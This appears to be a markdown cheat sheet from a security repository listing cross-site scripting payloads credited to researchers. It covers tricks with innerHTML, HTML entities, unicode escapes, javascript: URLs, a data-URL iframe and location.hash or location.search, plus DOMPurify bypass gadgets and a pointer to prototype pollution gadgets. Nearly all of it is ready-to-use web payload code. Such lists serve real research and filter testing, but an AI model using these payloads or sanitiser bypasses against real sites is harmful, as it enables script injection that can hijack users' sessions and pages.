 ```
document.body.innerHTML="\u003cimg src=x onerror=alert\u002823\u0029\u003e";
```
    
---
[Renwa](https://twitter.com/RenwaX23)

```
document.body.innerHTML="&ltimg src=x onerror=alert&lpar;23&rpar;&gt"
document.body.innerHTML=document.body.innerText
```
---
If the page is frameable [Renwa](https://twitter.com/RenwaX23/status/1125387416175546368)

```
data:text/html,<iframe name="<svg/onload=alert(23)>" src="http://example.com/xss?document.body.innerHTML=name">
```
---
[user00239123](https://stackoverflow.com/a/40899496/9216926)

    document.location='javascript:alert%2823%29'

---
Only IE [matt](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/#comment-2157)
   
    example.com/xss#<img src=x onerror=alert(23)>
    
    document.body.innerHTML=location.hash;
---
[Brutelogic](https://twitter.com/brutelogic/status/585944389589065728)
    
    <svg/onload='alert&#40 23 &#41'> 

---
[Blakils](https://twitter.com/Blaklis_/status/1125663871056928769)

    location=/javascript:alert%2823%29/.source;
---
[Nicocanicolas](https://twitter.com/nicocanicolas/status/1125399154560307205)

    http://example.com/?test=&lt;img/src=&quot;x&quot;/onerror=alert(23)&gt;
    
    document.body.innerHTML=location.search;
    document.body.innerHTML=document.body.innerText;

---

# With Script Gadgets 

Using Prorotype Pollution [PP Gadgets Repo](https://github.com/BlackFan/client-side-prototype-pollution#script-gadgets)

---

DOMPurify Bypass [Parrot](https://twitter.com/parrot409)

    delete DOMPurify.isSupported

---

DOMPurify Bypass [hakatashi](https://hackmd.io/@hakatashi/HkgG02U4t)

    delete document.implementation.__proto__.createHTMLDocument

---

### Anything: @[RenwaX23](https://twitter.com/RenwaX23)
